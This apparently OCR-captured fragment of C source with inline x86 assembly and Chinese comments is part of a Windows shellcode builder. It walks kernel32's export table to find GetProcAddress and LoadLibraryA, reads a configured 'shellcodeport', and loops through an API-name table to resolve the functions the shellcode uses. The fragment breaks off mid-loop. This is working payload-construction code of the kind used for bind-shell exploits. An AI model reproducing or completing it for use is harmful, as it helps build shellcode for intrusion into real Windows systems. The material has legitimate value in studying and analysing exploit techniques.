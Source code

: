         pop     esi
        pop     edi

        sub     eax,[ebx+edi+20h]      ;peexc.AddressOfNames
        shr     eax,1
        add     edx,ebx
        movzx   eax,word ptr [edx+eax]
        add     esi,[ebx+edi+1ch]       ;peexc.AddressOfFunctions
        add     ebx,[esi+eax*4]         ;ebx=Kernel32.GetProcAddress.addr
                                        ;use GetProcAddress and hModule to get other func
        pop     esi                     ;esi=kernel32 Base

        mov     [hKrnl32],esi           //保存
        mov     [GetProcAddr],ebx       //保存

        call    _getLoadLib
        _emit 0x4C
        _emit 0x6F
        _emit 0x61
        _emit 0x64
        _emit 0x4C
        _emit 0x69
        _emit 0x62
        _emit 0x72
        _emit 0x61
        _emit 0x72
        _emit 0x79
        _emit 0x41
        _emit 0x0
        //db      "LoadLibraryA",0

_getLoadLib:
        push    esi
        call    ebx
        mov     [LoadLib],eax

        //恢复寄存器，避免更多问题
        popad
    }

   //取出定义的端口地址
   shellcodeport=*(u_short *)ApiStr_addr;
   ApiStr_addr+=2;

   ////////////////////////////////测试用
    testAddr=ApiStr_addr;
   ////////////////////////////////////

   //利用GetProcAddress来获得shellcode中所用到的API地址

   libhandle=hKrnl32;
   p=ApiStr_addr;

   k=0;
   ///*
   while ( *((unsigned int *)p) != 0)
   {
       ApiStr_addr=p;
       while(*p) p++;   //前进到下一个字符串
